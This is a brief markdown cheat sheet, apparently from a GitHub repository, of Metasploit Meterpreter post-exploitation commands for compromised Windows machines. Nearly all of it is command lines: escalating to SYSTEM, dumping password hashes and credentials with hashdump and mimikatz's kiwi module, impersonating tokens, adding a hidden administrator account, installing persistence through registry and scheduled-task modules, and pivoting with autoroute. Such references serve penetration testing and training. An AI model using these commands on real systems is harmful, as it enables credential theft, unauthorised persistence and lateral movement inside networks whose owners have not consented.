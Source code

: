 # windows meterpreter

## shell access (cmd & powershell)

1. for cmd.exe `shell`
2. for powershell
    1. `load powershell`
    2. `powershell_shell`

## windows specific commands

```bash
getuid
sysinfo
ipconfig
arp
route
getsystem
getprivs

migrate <system-process>

hashdump
```

## post enumeration
```bash
run post/windows/gather/*
```

## incognito | [milkdevil/incognito2](https://github.com/milkdevil/incognito2)

```bash
load incognito
list_tokens [-u | -g]
impersonate_token "<token>"

# for better results
migrate <pid>
add_user <user> <pass>
add_localgroup Administrators <user>
```

## mimikatz

```bash
load kiwi
creds_all
```

## local exploit suggester

```bash
run post/multi/recon/local_exploit_suggester
```

## Persistence

```bash
persistence -h
use exploit/windows/local/persistence
use exploit/windows/local/registry_persistence

run scheduleme
run schtaskabuse
```

## autoroute

```bash
run autoroute -s IP/CIDR
run autoroute -p
[OR]
use post/multi/manage/autoroute
```